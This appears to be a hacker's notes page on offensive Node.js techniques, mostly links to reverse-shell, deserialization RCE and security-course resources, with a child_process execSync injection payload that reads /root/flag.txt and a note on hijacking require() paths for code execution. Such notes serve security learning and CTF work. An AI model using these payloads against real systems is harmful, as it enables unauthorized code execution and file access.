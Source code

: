 # NodeJS


[Node.js](https://nodejs.org) is a [[Useful_Javascript]] framework, or web technology. Or external links:
[XinYminutes JS](https://learnxinyminutes.com/docs/javascript/) and [Javascript beautifer](https://beautifier.io/) for the hacky JS and online beautifier.


[Node JS security Course](https://github.com/ajinabraham/Node.Js-Security-Course)

## Shells

[Shell](https://github.com/ajinabraham/Node.Js-Security-Course/blob/master/nodejsshell.py)
[Node.js Reverse shells](https://medium.com/dont-code-me-on-that/bunch-of-shells-nodejs-cdd6eb740f73)



## Deserialization

[Deserialization](https://opsecx.com/index.php/2017/02/08/exploiting-node-js-deserialization-bug-for-remote-code-execution/) blog

## Globals
```javascript
__dirname
__filename
exports
module
require()
```


## Node.js Payload
```javascript
"return process.mainModule.require('child_process').execSync('cat
/root/flag.txt');"
```

## Vulnerable Require() 

Because Node.js `require()` allows for relative paths for module cache  if filesystem control is in your favour hijack the path `badVersionOfCalledModule` module and force that on any called functions from theat module to provide *"blazely fast"* \*cough\* code execution. 
[Freecode camp Node.js Require() ](https://www.freecodecamp.org/news/requiring-modules-in-node-js-everything-you-need-to-know-e7fbd119be8/)
[Honeybadger.io - Node.js Cache](https://www.honeybadger.io/blog/nodejs-caching/)

Get all the local paths of modules
```bash
node 
> module.paths
```

## References

[Node.js Reverse shells](https://medium.com/dont-code-me-on-that/bunch-of-shells-nodejs-cdd6eb740f73)
[Digital Ocean Node.js Module creation](https://www.digitalocean.com/community/tutorials/how-to-create-a-node-js-module)
[XinYminutes JS](https://learnxinyminutes.com/docs/javascript/)
[Javascript beautifer](https://beautifier.io/)
[Node.js]